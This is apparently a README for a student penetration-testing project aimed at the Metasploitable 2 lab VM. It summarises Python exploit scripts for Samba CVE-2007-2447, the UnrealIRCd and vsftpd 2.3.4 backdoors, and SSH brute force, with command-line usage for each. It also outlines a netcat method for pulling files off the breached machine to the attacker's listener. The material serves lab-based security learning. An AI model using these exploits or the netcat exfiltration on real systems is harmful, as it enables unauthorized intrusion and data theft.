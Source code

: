 # 4240project

## Description:
This project will show a few examples of system penetration. I will be using two virtual machines (both running Ubuntu linux version 22.04) with one running the Metasploitable 2 test environment (https://sourceforge.net/projects/metasploitable/). I have included four python scripts to explore four of the vulnerabilities present on the test environment. Once each script is run (following the proper execution) the user will have full access to the remote system.

When presenting these examples I will be going through these steps
- network scanning 
- vulnerbility assessment
- exploitation
- post-exploitation

## Purpose:
- The purpose of this project is to provide a deeper understanding for learning about system vulnerabilities and the exploitation techiniques used to exploit them. Instead of using the metasploit software to exploit the system vulnerabilites of metasploitable 2, I have created python scripts to do it instead. Doing this helps to gain a detailed explanation as to what is going on behind each exploit attempt. By viewing the documented python code, the user should have a further understanding of system security.

## System Requirements:
- Metasploitable 2
- Virtualbox 

## Exploits/Vulnerabilities:

### SAMBA CVE-2007-2447 
- Version: 3.0.20 < 3.0.25rc3
- Desc: Samba is a software that is a re-implmentation of the SMB networking protocol. This software provides file and print services for all clients as long as they are using the SMB protocol .
- Exploit: If Samba is configured to use the non-default username map script, anyone can send arbitrary commands in disguise as a username to the server. The command will then be run without needing authorization.

### UnrealRCD CVE-2010-2075
- Version: 3.2.8.1 
- Desc: UnrealRCD is a daemon for Internet Realy Chat usage in order to provide chat services.
- Exploit: UnrealRCD contains an exploit where it will execute any command send to the service if it begins with the string 'AB'. Ex: AB; [command to run]

### VSFTP CVE-2011-2523
- Version: 2.3.4
- Desc: VSFTP is an FTP server for linux. 
- Exploit: The exploit occurs when a user tries to login with a username that ends with ':)'. This opens a shell on port 6200, allowing the attacker unauthenticated access.

### SSH (BRUTE FORCE EXAMPLE)
- Version: Any.
- Desc: The SSH service allows for communication between a computer network. 
- Exploit: This is less of an exploit and more of poor system security. Users can prevent brute force attacks by incorporating a proper firewall to filter out ip addresses, using public key authentication, using strong and unqiue passwords, etc....

## Payload Examples:
- After gaining access to the remote system and starting a shell session, the user can manually use netcat to search for a specified file. Here is an example:
 - Open a terminal on the local host and run "nc -lnvp [portnum] > [file for info to be stored]"
 - On the remote machine (the breached machine) run the command " [IP of local machine] [portnum] < [file path to be retrieved]

# Guide To Testing:
- Samba:
 - Python3 samba.py
 - <RHOST> <RPORT> <LHOST> <LPORT>
- SSH:
 - Python3 sshBruteForce.py
 - <RHOST>
 - <RPORT>
- UnrealRCD:
 - Python3 unrealIRCD.py
 - <RHOST> <RPORT> <LHOST> <LPORT>
- VSFTP:
 - Python3 ftpExploit.py
 - <RHOST> <RPORT> <COMMAND>